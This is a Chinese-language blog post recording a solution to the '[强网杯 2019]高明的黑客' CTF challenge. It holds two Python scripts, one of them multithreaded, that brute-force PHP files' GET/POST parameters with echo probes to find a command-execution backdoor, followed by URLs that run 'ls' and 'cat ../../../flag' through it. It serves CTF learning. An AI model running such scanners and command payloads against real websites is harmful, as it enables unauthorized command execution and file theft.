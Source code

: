 ```yaml
---
layout: post
title: '[强网杯 2019]高明的黑客'
subtitle: 'python脚本练习'
date: 2021-08-22
categories: 技术
cover: 'http://on2171g4d.bkt.clouddn.com/jekyll-theme-h2o-postcover.jpg'
tags: buu刷题 网络安全
---
```


### 解题步骤

> 1.打开靶场

![](https://1024861435.github.io/assets/img/[强网杯 2019]高明的黑客1.png)

下载源码，发现是一堆php文件，开始以为是反序列化，但是没有找到，于是查看别人的wp，说是找get或者post传参

> 2.于是按照要求自己写了一个小脚本

	import re
	import requests
	import os
	
	
	pattern=r"(?<=\_GET\[\').*(?=\'\])"
	path1=r'D:\Leo\phpstudy_pro\WWW\src'
	path=r"http://localhost/src/"
	filelist=os.listdir(path1)
	for flie in filelist:
	    print(flie)
	    f=open(path1+'\\'+flie)
	    data=f.read()
	    f.close()
	    result=re.findall(pattern,data)
	
	    for i in result:
	        reponse=requests.get(path+flie+'?'+i+'='+"echo 'zzzzzzz'")
	        print(path+flie+'?'+i+"echo 'zzzzzzz'")
	        reponse.close()
	
	        if "zzzzzzz" in reponse.text:
	            print(flie)
	            print(i)
	            exit(1)

然而跑了半天，发现时间太久，于是用几个php文件试了一下

![](https://1024861435.github.io/assets/img/[强网杯 2019]高明的黑客2.png)

> 3.于是去尝试了一下

http://0021cf66-1645-4012-9ec2-2cc4acd628da.node4.buuoj.cn:81/xk0SzyKwfzw.php?Efa5BVG=ls%20../../../

![](https://1024861435.github.io/assets/img/[强网杯 2019]高明的黑客3.png)

发现根目录下有flag文件

> 4.cat读flag

http://0021cf66-1645-4012-9ec2-2cc4acd628da.node4.buuoj.cn:81/xk0SzyKwfzw.php?Efa5BVG=cat%20../../../flag

![](https://1024861435.github.io/assets/img/[强网杯 2019]高明的黑客4.png)

### 由于发现脚本太慢去看了别人的wp

发现了多线程和session()一次性请求所有参数的办法以及关闭请求释放内存，于是学习了一下别人的脚本

	import os
	import requests
	import re
	import threading
	import time
	print('开始时间：  '+  time.asctime( time.localtime(time.time()) ))   #只是一个简单的时间函数，看起来更漂亮罢了
	s1=threading.Semaphore(100)                               #这儿设置最大的线程数
	filePath = r"D:/phpstudy_pro/WWW/test1/"
	os.chdir(filePath)                                     #改变当前的路径，这个还是不太懂
	requests.adapters.DEFAULT_RETRIES = 5                       #设置重连次数，防止线程数过高，断开连接
	files = os.listdir(filePath)                                            #得到该目录下所有文件的名称
	session = requests.Session()                                        #得到session()为之后的实现代码回显得取创造条件
	session.keep_alive = False                                # 设置连接活跃状态为False
	def get_content(file):
	    s1.acquire()                                                       #好像与锁什么的相关，但是还是不太懂，多线程开启
	    print('trying   '+file+ '     '+ time.asctime( time.localtime(time.time()) ))  #更好看，同时可以对比不加线程和加线程的时间对比
	    with open(file,encoding='utf-8') as f:                   #打开php文件，提取所有的$_GET和$_POST的参数
	            gets = list(re.findall('\$_GET\[\'(.*?)\'\]', f.read()))
	            posts = list(re.findall('\$_POST\[\'(.*?)\'\]', f.read()))
	    data = {}                                         #所有的$_POST
	    params = {}                                           #所有的$_GET
	    for m in gets:
	        params[m] = "echo 'xxxxxx';"
	    for n in posts:
	        data[n] = "echo 'xxxxxx';"
	    url = 'http://127.0.0.1/test1/'+file
	    req = session.post(url, data=data, params=params)        #一次性请求所有的GET和POST
	    req.close()                                     # 关闭请求  释放内存
	    req.encoding = 'utf-8'
	    content = req.text
	    #print(content)
	    if "xxxxxx" in content:                            #如果发现有可以利用的参数，继续筛选出具体的参数
	        flag = 0
	        for a in gets:
	            req = session.get(url+'?%s='%a+"echo 'xxxxxx';")
	            content = req.text
	            req.close()                                     # 关闭请求  释放内存
	            if "xxxxxx" in content:
	                flag = 1
	                break
	        if flag != 1:
	            for b in posts:
	                req = session.post(url, data={b:"echo 'xxxxxx';"})
	                content = req.text
	                req.close()                                     # 关闭请求  释放内存
	                if "xxxxxx" in content:
	                    break
	        if flag == 1:                                      #flag用来判断参数是GET还是POST，如果是GET，flag==1，则b未定义；如果是POST，flag为0，
	            param = a
	        else:
	            param = b
	        print('找到了利用文件： '+file+"  and 找到了利用的参数：%s" %param)
	        print('结束时间：  ' + time.asctime(time.localtime(time.time())))
	    s1.release()                #对应于之前的多线程打开
	 
	 
	for i in files:                                              #加入多线程
	   t = threading.Thread(target=get_content, args=(i,))
	   t.start()




